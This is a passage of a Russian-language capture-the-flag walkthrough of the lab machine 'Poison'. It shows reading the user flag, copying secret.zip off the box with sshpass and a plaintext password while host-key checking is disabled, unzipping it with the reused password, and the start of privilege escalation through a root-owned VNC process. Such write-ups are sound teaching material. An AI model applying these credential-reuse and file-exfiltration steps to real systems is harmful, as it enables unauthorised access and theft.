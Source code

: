 ```text
-rw-rw----  1 charix  charix     0 Sep 16 15:16 .history
-rw-r-----  1 charix  charix   254 Mar 19 16:08 .login
-rw-r-----  1 charix  charix   163 Mar 19 16:08 .login_conf
-rw-r-----  1 charix  charix   379 Mar 19 16:08 .mail_aliases
-rw-r-----  1 charix  charix   336 Mar 19 16:08 .mailrc
-rw-r-----  1 charix  charix   802 Mar 19 16:08 .profile
-rw-r-----  1 charix  charix   281 Mar 19 16:08 .rhosts
-rw-r-----  1 charix  charix   849 Mar 19 16:08 .shrc
drwx------  2 charix  charix   512 Sep 16 11:57 .ssh
-rw-r-----  1 root    charix   166 Mar 19 16:35 secret.zip
-rw-r-----  1 root    charix    33 Mar 19 16:11 user.txt
```

## user.txt
Заберем флаг пользователя:
```text
charix@Poison:~ % cat /home/charix/user.txt
eaacdfb2????????????????????????
```

И уделим внимание файлу с интригующим названием `secret.zip`. Заберем на свою машину для изучения:
```text
root@kali:~# sshpass -p 'Charix!2#4%6&8(0' scp -oStrictHostKeyChecking=no charix@10.10.10.84:secret.zip .

root@kali:~# unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
 extracting: secret
```

```text
root@kali:~# cat secret
[|Ֆz!

root@kali:~# xxd secret
00000000: bda8 5b7c d596 7a21                      ..[|..z!
```

Скачали, распаковали (обратим внимание на плохую политику паролей: пароль от пользовательской учетки подошел и для архива), просмотрели содержимое. Просто набор байт, пока кроме предположения, что это ключ к какому-то сервису, ничего в голову не приходит.

## PrivEsc: charix → root

Вернемся на Poison и осмотримся. Среди множества мусора, полученного в результате вывода `ps aux`, видим одну необычную строчку:
```text
charix@Poison:~ % ps auxww
USER    PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
...
root    545   0.0  0.9  23620  9032 v0- I    15:13    0:00.09 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport
...
```
